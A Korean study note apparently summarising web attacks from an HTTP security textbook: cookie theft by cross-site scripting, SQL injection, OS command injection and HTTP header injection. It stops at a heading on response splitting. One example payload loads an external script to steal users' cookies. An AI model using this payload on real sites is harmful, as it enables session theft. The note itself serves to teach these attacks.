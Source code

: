 ### 유저의 쿠키를 빼앗는 공격

폼에 함정을 설치하는 것 외에도 스크립트를 추가하여 유저의 쿠키를 크로스 사이트 스크립팅으로 빼앗을 수 있다.

```
<script src=http://hackr.jp/xss.js></script>
```

<br/><br/>

### 부정한 SQL을 실행하는 SQL 인젝션

SQL 인젝션이란 웹 애플리케이션을 이용하고 있는 데이터베이스에 SQL을 부정하게 실행하는 공격이다. 

큰 위협을 일으킬 수 있는 취약성으로 개인 정보나 기밀 정보 누설로 직결되기도 한다.

<br/>

검색 및 추가, 삭제와 같은 처리가 발생할 경우 SQL을 사용해서 데이터베이스에 액세스 한다.

만약, SQL의 호출 방법에 미비가 있을 경우, 의도하지 않은 SQL문이 삽입되어 실행되어 버리는 경우가 있다.

<br/><br/>

### OS 커맨드 인젝션

OS 커맨드 인젝션이란? 웹 애플리케이션을 경유하여 OS 명령을 부정하게 실행하는 공격이다.

쉘을 호출하는 함수가 있는 곳에서 발생할 가능성이 있다.

<br/>

OS에서 사용되는 커맨드를 쉘을 경유해서 실행할 수 있다. 


쉘의 호출 방법에 취약한 부분이 있다면 잘못된 OS 커맨드가 삽입되어 실행되어 버리는 경우가 있다.

<br/><br/>

### HTTP 헤더 인젝션

HTTP 헤더 인젝션이란 공격자가 리스폰스 헤더 필드에 개행 문자 등을 삽입함으로써 

임의의 리스폰스 헤더 필드나 바디를 추가하는 수동적 공격이다. 

<br/>

특히 바디를 추가하는 공격을 HTTP 리스폰스 분할 공격이라고 부른다.

리스폰스 헤더 필드 Location 과 Set-Cookie의 값에 외부에서 받은 값을 삽입하는 일이 있다.

```
Location: http//www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345

*12345가 삽인된 값
```

<br/><br/>

### HTTP 리스폰스 분할 공격
